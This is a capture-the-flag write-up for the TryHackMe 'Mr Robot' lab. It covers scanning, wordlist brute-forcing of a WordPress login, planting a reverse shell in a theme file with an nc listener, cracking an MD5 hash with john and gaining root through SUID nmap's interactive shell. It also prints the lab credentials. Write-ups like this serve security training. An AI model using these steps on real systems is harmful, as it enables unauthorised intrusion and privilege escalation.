






---

Name: Mr Robot CTF
Difficulty: Medium
URL: https://tryhackme.com/room/mrrobot

---

# Solution
First we list the open ports on the machine
```bash
rustscan -a mrrobot.thm --ulimit 5000 -- -sC -sV
```
```bash
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1e:a3:d2:64:22:fa:7d:77:af:c9:8d:0b:f9:43:ef:98 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHSbxYhgOnK3PAdLUje//XuAXnEwtw3SMGVG/ANtJUZzEn6w1SXaGXOj3JB/OEcZJufv6eTazHbEyqP20PuCGz6pl/FRv/Ayl+I4u3W4+M6id/r+IbbocL2/88coTaWhlA5iV25j35WW+cOo89VtTeP1lgXTW3Lxiic0RWJxFt3hZyceX8EkCZUPWn8xW8ybL7X4OmKm/dFoo1YhqNgjlYZZfGRCJFcb2dqDwF8Ck4wYSOVqYLTp/Gshr/MGElREQKk5Avv7W8+iXnvC6UB0iC2x+CRiBEiMM89EdvmduidMd6yPUIB/yrGNRyQSHpcEt3LW2f9bKfMx3TEplPPCW4c/Ow+b1KZ0BXk6EzWT2RHXT6YSSlRmr5Nq5YwPrYOC7Vwnh2IlAxtas6eskSA5uKWC/8fWcBo40lr/x+FU6ZY2qu6YnU2UqndLb2t+pPdomaWr+idT62tkLTNu5dk7SuBxtah63dg5hEJ54KTurcLo5QK7v5lEebnruIhnCRxAM=
|   256 c5:77:09:3a:bf:2d:a8:0a:c1:45:3c:ab:f6:e3:48:30 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBgFlUo3+3AkjFES4SOvfNF/pfSAJbuYdW966d4rdHEr6G8HkkBe/vEym9hnch4/ELGADhyVfG+wld44YmErykQ=
|   256 78:55:32:66:d1:53:15:c4:bb:2e:83:4f:71:6a:b6:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF1yyKp+ywor9X2FBMK7filVyEhr4b+mqkHXykLf/i5f
80/tcp  open  http     syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
443/tcp open  ssl/http syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While I was looking through the website I let gobuster run
```bash
gobuster dir -u http://mrrobot.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -x txt,php,html,bak,zip,log -k
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mrrobot.thm/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,php,html,bak,zip,log
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 234] [--> http://mrrobot.thm/images/]
index.html           (Status: 200) [Size: 1188]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 301) [Size: 0] [--> http://mrrobot.thm/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/.bak (Status: 301) [Size: 0] [--> http://mrrobot.thm/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/.bak]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/.zip (Status: 301) [Size: 0] [--> http://mrrobot.thm/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/.zip]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/.txt (Status: 301) [Size: 0] [--> http://mrrobot.thm/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/.txt]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/.log (Status: 301) [Size: 0] [--> http://mrrobot.thm/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/.log]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/.html (Status: 301) [Size: 0] [--> http://mrrobot.thm/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/.html]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/.php (Status: 301) [Size: 0] [--> http://mrrobot.thm/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/.php]
index.php            (Status: 301) [Size: 0] [--> http://mrrobot.thm/]
blog                 (Status: 301) [Size: 232] [--> http://mrrobot.thm/blog/]
sitemap              (Status: 200) [Size: 0]
rss                  (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/]
login                (Status: 302) [Size: 0] [--> http://mrrobot.thm/wp-login.php]
video                (Status: 301) [Size: 233] [--> http://mrrobot.thm/video/]
0                    (Status: 301) [Size: 0] [--> http://mrrobot.thm/0/]
feed                 (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/]
image                (Status: 301) [Size: 0] [--> http://mrrobot.thm/image/]
atom                 (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/atom/]
wp-content           (Status: 301) [Size: 238] [--> http://mrrobot.thm/wp-content/]
admin                (Status: 301) [Size: 233] [--> http://mrrobot.thm/admin/]
audio                (Status: 301) [Size: 233] [--> http://mrrobot.thm/audio/]
intro                (Status: 200) [Size: 516314]
wp-login             (Status: 200) [Size: 2657]
wp-login.php         (Status: 200) [Size: 2657]
css                  (Status: 301) [Size: 231] [--> http://mrrobot.thm/css/]
rss2                 (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/]
license              (Status: 200) [Size: 309]
license.txt          (Status: 200) [Size: 309]
wp-includes          (Status: 301) [Size: 239] [--> http://mrrobot.thm/wp-includes/]
js                   (Status: 301) [Size: 230] [--> http://mrrobot.thm/js/]
wp-register.php      (Status: 301) [Size: 0] [--> http://mrrobot.thm/wp-login.php?action=register]
Image                (Status: 301) [Size: 0] [--> http://mrrobot.thm/Image/]
wp-rss2.php          (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/]
rdf                  (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/rdf/]
page1                (Status: 301) [Size: 0] [--> http://mrrobot.thm/]
readme               (Status: 200) [Size: 64]
readme.html          (Status: 200) [Size: 64]
robots               (Status: 200) [Size: 41]
robots.txt           (Status: 200) [Size: 41]
dashboard            (Status: 302) [Size: 0] [--> http://mrrobot.thm/wp-admin/]
```

It found robots.txt which had the filename of the first key
```txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

There is also fsocity.dic which looks like a list for either passwords or usernames

/admin keeps refreshin
```http
GET /admin/index.html HTTP/1.1
Host: mrrobot.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:151.0) Gecko/20100101 Firefox/151.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://mrrobot.thm/admin/index.html
Cookie: s_cc=true; s_fid=434E7B48D1514E3F-0A03D9F498725F68; s_nr=1784123435574; s_sq=%5B%5BB%5D%5D
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```html
HTTP/1.1 200 OK
Date: Wed, 15 Jul 2026 13:53:42 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Accept-Ranges: bytes
Vary: Accept-Encoding
X-Mod-Pagespeed: 1.9.32.3-4523
Cache-Control: max-age=0, no-cache
Content-Length: 1188
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

<!doctype html>
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
<html class="no-js" lang="">
  <head>
    

    <link rel="stylesheet" href="css/A.main-600a9791.css.pagespeed.cf.E72ifhzN0H.css">

    <script src="js/vendor/vendor-48ca455c.js.pagespeed.jm.V7Qfw6bd5C.js"></script>

    <script>var USER_IP='208.185.115.6';var BASE_URL='index.html';var RETURN_URL='index.html';var REDIRECT=false;window.log=function(){log.history=log.history||[];log.history.push(arguments);if(this.console){console.log(Array.prototype.slice.call(arguments));}};</script>

  </head>
  <body>
    <!--[if lt IE 9]>
      <p class="browserupgrade">You are using an <strong>outdated</strong> browser. Please <a href="http://browsehappy.com/">upgrade your browser</a> to improve your experience.</p>
    

    <!-- Google Plus confirmation -->
    <div id="app"></div>

    
    <script src="js/s_code.js.pagespeed.jm.I78cfHQpbQ.js"></script>
    <script src="js/main-acba06a5.js.pagespeed.jm.YdSb2z1rih.js"></script>
</body>
</html>

```

We move to the login page, http://mrrobot.thm/wp-login, we enter random values and see the error we get is  " ERROR: Invalid username. Lost your password? ", meaning the error message will be different for a correct username, using the list we found earlier we could brute force for some credentials


The file is really long, because it has a lot of duplicate entries, lets fix that
```bash
sort fsocity.dic | uniq -d | wc
  11441   11441   96591

sort fsocity.dic | uniq -u | wc
     10      10     156

sort fsocity.dic | wc
 858160  858160 7245381
```
```bash
sort fsocity.dic | uniq -d > clean.txt

sort fsocity.dic | uniq -u >> clean.txt
```

Tried using hydra for this one, but it kept giving too many false positives, so in the end I used Caido



After filtering the responses based on their lenght I found the username: Elliot


Now I changed the request and started looking for the password using the same wordlist



And after a while found it



Now we can login with 
```bash
Elliot
ER28-0652
```

Since we can edit the template we will replace archive.php with a revershe shell we generate with https://www.revshells.com/





Start a listener
```bash
nc -lvnp 4444
```

We can visit http://10.10.12.13/wp-content/themes/twentyfifteen/archive.php and obtain the shell
```bash
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ whoami
daemon
```

First we need a better shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Lets view /home/robot, there we find the md5 hash of his password
```bash
daemon@ip-10-114-152-0:/home/robot$ ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@ip-10-114-152-0:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We use john to crack it
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt
```
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX-512 16x3])
Warning: no OpenMP support for this hash type, consider --fork=32
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)
1g 0:00:00:00 DONE (2026-07-15 17:56) 14.29g/s 581485p/s 581485c/s 581485C/s power12..telcel
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
```bash
abcdefghijklmnopqrstuvwxyz
```

Now we can SSH into the machine and read the second key
```bash
ssh robot@mrrobot.thm
```
```bash
$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$ whoami
robot
```
```bash
$ cat key-2-of-3.txt
[REDACTED]
```

We find something interesting in the crontab
```bash

$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
33 * * * * bitnami cd /opt/bitnami/stats && ./agent.bin --run -D
```

```bash
$ ls -l
total 5856
-rwxr-xr-x 1 bitnamiftp bitnami 3742628 Oct 20  2014 agent.bin
-rw-r--r-- 1 bitnamiftp bitnami     216 Jul 15 13:48 agent.conf
-rw-r--r-- 1 bitnamiftp bitnami 2235111 Oct 20  2014 agent.exe
-rw-rw-r-- 1 bitnamiftp bitnami     157 Nov 13  2015 agent.log
-rw-r--r-- 1 bitnamiftp bitnami    1334 Sep  3  2012 cert.pem
-rw-r--r-- 1 bitnamiftp bitnami     723 Nov 13  2015 settings.db
```

It does not provide any useful information. So we look at the files that have SUID
```bash
find / -perm -4000 -type f 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

We find nmap and look on GTFObins, https://gtfobins.org/gtfobins/nmap/#shell. We use this exploit and get a shell as root



```bash
nmap --interactive
!/bin/sh
```

Now we are root and can read the flag
```bash
nmap> id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
nmap> whoami
root
```
```bash
nmap> ls /root
firstboot_done  key-3-of-3.txt
nmap> cat /root/key-3-of-3.txt
[REDACTED]
```

